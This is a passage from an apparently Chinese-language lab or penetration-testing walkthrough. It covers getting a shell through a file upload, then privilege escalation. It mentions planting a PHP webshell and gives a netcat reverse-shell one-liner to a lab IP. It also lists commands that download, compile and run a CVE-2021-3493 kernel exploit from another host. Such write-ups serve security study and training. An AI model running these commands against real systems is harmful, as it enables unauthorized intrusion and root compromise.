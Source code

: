 [![](assets/1699406763-fc59422a7edc758fdd866c81ab972596.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107103933-e271d624-7d16-1.png)

上传成功后，kali 成功拿到 shell

[![](assets/1699406763-d281de7f126e899d32cac628ba44a845.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231107103956-f007e9c2-7d16-1.png)

这里还可以上传一个 php 一句话木马，使用蚁剑进行连接，由于蚁剑的终端不稳定，故可以在终端上执行反弹 shell

```plain
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.56.103 4444 >/tmp/f"
```

## 提权

### CVE-2021-3493 提权

这里可以使用[CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)进行提权

```plain
cd /tmp
wget http://192.168.56.105:8000/cve-2021-3493.c
gcc cve-2021-3493.c -o exp
chmod 777 exp
./exp
```
